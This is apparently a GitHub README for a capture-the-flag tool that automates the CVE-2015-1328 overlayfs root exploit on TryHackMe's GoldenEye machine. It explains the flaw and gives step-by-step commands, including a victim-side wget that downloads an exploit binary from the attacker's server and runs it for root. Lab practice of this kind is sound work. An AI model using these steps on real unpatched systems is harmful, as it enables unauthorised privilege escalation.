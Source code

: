 # CVE-2015-1328-GoldenEye


# about exploit:
The overlayfs implementation in the linux (aka Linux kernel) package before 3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissions for file creation in the upper filesystem directory, which allows local users to obtain root access by leveraging a configuration in which overlayfs is permitted in an arbitrary mount namespace. 

Thanks to rebel

# Config

This is an automated exploit for CVE-2015-1328 for GoldenEye CTF from TryHackMe 
by default, gcc isn't available in that machine so, i configured the gcc to cc and accordingly ran the exploit to gain root privileges.

# Simply clone the repo and run exploit.sh 

# On Attacker's machine:

Installation

Just, Clone this repository - 

    $ git clone https://github.com/0x1ns4n3/CVE-2015-1328-GoldenEye.git
    $ cd CVE-2015-1328-GoldenEye
    $ chmod +x exploit.sh
    $ bash exploit.sh
    
    
# On Victim's machine :

    $ wget http://<target ip>:6969/exploit
    
    $ chmod +x exploit
    
    $ ./exploit

